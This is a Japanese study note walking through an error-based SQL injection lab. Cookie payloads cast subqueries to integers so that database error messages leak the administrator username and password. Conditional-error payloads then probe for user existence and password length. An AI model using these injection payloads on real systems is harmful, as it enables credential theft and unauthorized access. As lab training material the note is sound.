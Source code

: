 
Date: 2025-09-18
Tags: 
Links: [[WSA]], [[SQL]]

***

`CAST(... AS int)` + 比較でエラーを使ったデータ漏洩（error-based extraction）。  


1.  **CAST を使った汎用テスト**
```sql
Cookie: TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--
```
- 送信すると `"AND condition must be boolean"` 的なエラーが出ることがある（比較が必要）。
- 比較を追加して有効化：
```sql
Cookie: TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
```
- 送信後: エラー消える → ペイロードが文法的に有効。


 2. **実データを引き出す（username）**
- 汎用 `SELECT 1` を `username` を返すように変更：
```sql
Cookie: TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
```
- 観察: 再びエラー。**クエリがトランケート（文字数制限）されており、先に入れたコメント `--` が省略されている**可能性がある（元の TrackingId の長さによりスペース不足）。


3. **元の TrackingId 値を削除して空きを作る**
```sql
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
```
- 送信後: 新しい DB 由来のエラーが出る（サブクエリが複数行を返した等の可能性）。

4. **サブクエリを 1 行に制限**
```sql
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```
- 送信後: エラーメッセージに最初の username が露出（例: `ERROR: invalid input syntax for type integer: "administrator"`）。  
- これで `users` テーブルの最初のユーザー名が `administrator` であることを確認できる。

5. **管理者のパスワードを引き出す**
```sql
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```
- 送信後: エラーメッセージにパスワードが露出する（ラボ環境での手順）。  
- 露出したパスワードで管理者ログインしてラボ完了。



## 補助的テクニック（エラー誘発／存在確認の別手法）
- **管理者存在確認（CASE + エラー）**（DB 方言依存／例）
```sql
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END 
FROM users WHERE username='administrator')||'
```
- **パスワード長の確認（逐次判定）**（DB 方言依存／例）
```sql
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END 
FROM users WHERE username='administrator')||'
```
- 上記を `>1` → `>2` ... と増やしていき、エラーの有無で長さを推定（writeup では 20 文字と判定）。



#### 観察ポイント／注意
- **コメント `--` の扱い**：多くの DB は `--` の後にスペースか改行を要求する（`-- `）。DB 方言に留意する。  

***
# References